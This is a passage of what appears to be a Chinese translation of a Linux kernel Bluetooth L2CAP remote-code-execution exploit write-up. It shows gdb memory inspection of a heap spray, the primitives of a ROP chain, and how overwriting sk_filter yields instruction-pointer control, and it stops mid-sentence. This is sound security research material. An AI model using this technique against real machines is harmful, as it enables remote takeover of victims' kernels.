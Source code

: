 请注意这两个泄漏的指针的最重要字节的不同之处。通过观察较大的字节，我们可以进行有根据的猜测（或检查 Linux文档），以确定它们是否属于一个段、堆或堆栈。为了确认我们确实能够收回结构 `l2cap_chan`的地址，我们可以使用以下命令检查受害者机器上的内存:

```shell
$ sudo gdb /boot/vmlinuz /proc/kcore
(gdb) x/40gx 0xffff98ee5c62fc00
0xffff98ee5c62fc00:	0x4141414141414141	0x4242424242424242
0xffff98ee5c62fc10:	0x4343434343434343	0x4444444444444444
0xffff98ee5c62fc20:	0x4545454545454545	0x4646464646464646
0xffff98ee5c62fc30:	0x4747474747474747	0x4848484848484848
...
0xffff98ee5c62fd00:	0x6161616161616161	0x6262626262626262
0xffff98ee5c62fd10:	0x6363636363636363	0x6464646464646464
0xffff98ee5c62fd20:	0x6565656565656565	0x6666666666666666
0xffff98ee5c62fd30:	0x6767676767676767	0x6868686868686868
```

内存内容看起来很有希望！请注意，使用一个模式进行喷射是很有用的，因为这允许我们立即识别内存块，并理解当出现 panic 时，哪些偏移量会被解除引用。

## 把所有东西结合起来

现在我们已经拥有了完成 RCE 所需的全部原语:

- 我们可以控制一个地址已知的内存块(称为“负载”)。
- 我们可以泄漏一个 `.text `段指针，并构建一个 ROP 链，我们可以将其存储在有效负载中。
- 我们可以完全控制 `sk_filter`字段，并将其指向有效负载。

### 实现 RIP 控制 

让我们回顾一下 `sk_filter_trim_cap()`，并理解为什么控制 `sk_filter`是有用的。

```c
// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/net/core/filter.c
int sk_filter_trim_cap(struct sock *sk, struct sk_buff *skb, unsigned int cap)
{
	...
	rcu_read_lock();
	filter = rcu_dereference(sk->sk_filter);
	if (filter) {
		struct sock *save_sk = skb->sk;
		unsigned int pkt_len;

		skb->sk = sk;
		pkt_len = bpf_prog_run_save_cb(filter->prog, skb);
		skb->sk = save_sk;
		err = pkt_len ? pskb_trim(skb, max(cap, pkt_len)) : -EPERM;
	}
	rcu_read_unlock();

	return err;
}
```

由于我们控制 filter 的值，我们还可以通过在负载的偏移 0x18 处放置一个指针来控制 `filter->prog`。也就是说，这是 prog 的偏移量:
